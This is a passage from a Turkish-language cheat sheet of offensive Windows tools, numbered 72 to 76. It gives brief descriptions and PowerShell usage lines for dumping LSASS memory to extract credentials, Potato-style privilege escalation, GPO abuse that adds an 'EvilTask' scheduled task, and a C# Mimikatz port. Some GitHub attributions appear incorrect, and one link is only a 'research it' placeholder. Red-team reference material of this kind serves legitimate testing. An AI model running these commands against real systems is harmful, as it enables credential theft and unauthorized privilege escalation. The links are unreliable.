 ## 72. SharpDump
**Kısa Tanım**: LSASS bellek dump’ını alıp Mimikatz uyumlu hale getiren bir aracı (C#).  
**Usage**:
```powershell
.\SharpDump.exe --write C:\temp\lsass.dmp
```
**GitHub**: [https://github.com/ccob/SharpDump](https://github.com/ccob/SharpDump)

---

## 73. SharpEfsPotato
**Kısa Tanım**: Windows EFS RPC üzerinden privesc (Potato serisi).  
**Usage**:
```powershell
.\SharpEfsPotato.exe -cmd "cmd.exe /c whoami"
```
**GitHub**: [Araştırınız]

---

## 74. SharpGPO
**Kısa Tanım**: GPO manipülasyonlarını kolaylaştıran C# aracı.  
**Usage**:
```powershell
.\SharpGPO.exe --list
```
**GitHub**: [https://github.com/FSecureLABS/SharpGPO](https://github.com/FSecureLABS/SharpGPO)

---

## 75. SharpGPOAbuse
**Kısa Tanım**: GPO'larda privesc/komut ekleme senaryolarını sömüren araç.  
**Usage**:
```powershell
.\SharpGPOAbuse.exe --AddScheduledTask --TaskName "EvilTask"
```
**GitHub**: [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

---

## 76. SharpKatz
**Kısa Tanım**: Mimikatz fonksiyonlarını C# içinde barındıran bir implementasyon.  
**Usage**:
```powershell
.\SharpKatz.exe --base64
```
**GitHub**: [https://github.com/SharpKatzProject/SharpKatz](https://github.com/SharpKatzProject/SharpKatz)

---
